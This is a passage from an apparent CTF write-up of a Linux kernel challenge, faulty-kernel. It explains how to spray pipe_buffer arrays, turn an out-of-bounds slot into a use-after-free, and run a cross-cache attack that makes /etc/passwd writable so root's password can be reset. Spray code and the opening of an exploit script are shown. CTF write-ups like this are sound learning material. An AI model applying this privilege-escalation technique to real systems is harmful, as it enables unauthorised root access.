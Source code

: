 For example, if we call `fcntl(fd,F_SETPIPE_SZ,0x1000*count);`, `nr_slots`==`count`. However, there is a limit for the value of count: it must be `pow(2,n)` (e.g., 0,1,2,4,8...). Considering the struct size of `pipe_buffer` is 0x28, we can set `pipe_buffer`s in the slab sizes of 0x40, 128, 192, ...

Back to the challenge, the size of `pipe_buffer` arrary should be 0x400, which means we need 0x10 `pipe_buffer`s: `0x400 > (0x28 * 0x10) > 0x200`. 


```
 pipeBufferResize(pipe_fd[0][0],16);
 pipeBufferResize(pipe_fd[0][1],16);
 pipeBufferResize(pipe_fd[1][0],16);
 pipeBufferResize(pipe_fd[1][1],16);
 fd = open("/dev/challenge",2);
 pipeBufferResize(pipe_fd[2][0],16);
 pipeBufferResize(pipe_fd[2][1],16);
 pipeBufferResize(pipe_fd[3][0],16);
 pipeBufferResize(pipe_fd[3][1],16);
```

By spraying `pipe_buffer` array based on the code above, I place a page struct at the oob slot. 

# 0x04 Primitives

This oob is actually a UAF: 
- Place a page struct at the oob slot
- Free the pages where the page struct points to
- Operate the oob slot

Luckily, closing the pipes will not clean the metadata on the `pipe_buffer` struct so we can still operate the page struct. Considering the freed page is collected, cross-cache techniques could be applied. I used to do control flow hijacking after I had UAF but I noticed @lotus used a simpler solution:

- [Cross Cache Attack][1] and refill with file structs of `/etc/passwd`
- Modify the `f_mode;` to `0x004f801f` to enable writing.
- Reset the password of the root
- Login as root

When password login of root is enabled, this solution is simpler and doesn't require control flow hijacking.

# 0x05 Exploit Script

```c
// https://github.com/n132/libx/tree/main
// gcc main.c -o ./main -lx -w
//gcc main.c -o ./main -lx -w
#include "libx.h"
#include <fcntl.h>
#include <sys/mman.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#if defined(LIBX)
    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
    }
```

[1]: https://n132.github.io/2024/02/29/IPS-Cross-Slab-Attack.html
[2]: https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/pwn/faulty-kernel